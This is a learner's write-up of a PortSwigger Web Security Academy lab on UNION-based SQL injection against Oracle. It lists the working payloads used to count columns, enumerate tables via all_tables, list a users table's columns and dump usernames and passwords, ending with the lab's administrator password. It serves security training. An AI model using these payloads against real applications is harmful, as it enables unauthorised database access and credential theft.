 ```yaml
---
title: 'Lab: SQL injection attack, listing the database contents on Oracle'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: SQL injection attack, listing the database contents on Oracle
###### tags: `Portswigger Web Security Academy` `Web`
* Description:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 
* Goal:  To solve the lab, log in as the administrator user.
* Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`

## Exp
1. Determine # of columns
Payload: `?category=Lifestyle' union select NULL,NULL from dual--`

2. Determine which column contained text string
Payload: `?category=Lifestyle' union select 'a','b'from dual--`

3. According to [cheat sheet](https://portswigger.net/web-security/sql-injection/examining-the-database)
We can use `all_tables` to search `table_name`
For instance: `SELECT * FROM all_tables`
Payload: `?category=Lifestyle' union select table_name,NULL from all_tables--`
    :::spoiler Result
    ![](https://i.imgur.com/Qbp5dqq.png)
    :::
4. Then tried the specific one - `USERS_LXJEEY`
Payload: `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_LXJEEY'--
`
    :::spoiler Result
    ![](https://i.imgur.com/M1ZoLph.png)
    :::
5. Tried dig deeper
Payload: `?category=Gifts' union SELECT USERNAME_YRYUYR,PASSWORD_OUTVCI FROM USERS_LXJEEY--
`
    :::spoiler Result
    ![](https://i.imgur.com/sbtaeGi.png)
    :::
Finally, we know the password of `administrator` is `z0mtqaim65dnb4yo034l`
:::spoiler Success Screenshot
![](https://i.imgur.com/cEOjCoq.png)
:::

## Reference